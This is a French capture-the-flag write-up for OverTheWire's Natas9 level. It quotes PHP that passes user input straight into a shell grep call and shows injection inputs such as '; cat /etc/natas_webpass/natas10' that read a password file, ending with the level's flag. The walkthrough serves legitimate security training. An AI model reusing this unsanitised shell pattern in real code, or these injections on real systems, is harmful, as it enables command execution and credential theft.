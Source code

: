 ## Over-The-Wire -writeup-
### Natas9 (http://natas9.natas.labs.overthewire.org/)

---
#### Etape 1

On a un box de recherche qui, d'après le sourcecode mis à disposition, cherche chaque mot contenant l'input de l'utilisateur dans un dictionnaire.txt

Voici la fonction php:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

**On sait aussi que les mots de passes sont stockés dans /etc/natas_webpass/**, et la ligne de recherche dans le dictionnaire est vulnérable: `passthru("grep -i $key dictionary.txt");`

Il suffit de remplacer la variable $key par ";" pour terminer la ligne, et à la suite une commande qui nous permettrais de voir le contenu de *webpass*:

---
#### Etape 2

Tapons `; ls -la /etc/natas_webpass/natas10"` dans le box de recherche, et on obtient:
> -r--r----- 1 natas10 natas9     33 Dec 20  2016 /etc/natas_webpass/natas10  
> -rw-r----- 1 natas9  natas9 460878 Dec 15  2016 dictionary.txt

Et si on rentre `; type /etc/natas_webpass/natas10"`, on trouve que le fichier natas10 est un ASCII text.  

---
#### Etape 3


Il suffit de rentrer `; cat /etc/natas_webpass/natas10"` pour voir à quoi ressemble le fichier, et après avoir fait ça la page renvoie: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu.

---
<details>
    <summary>Mot de passe:</summary>
    
    **nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**
</details>
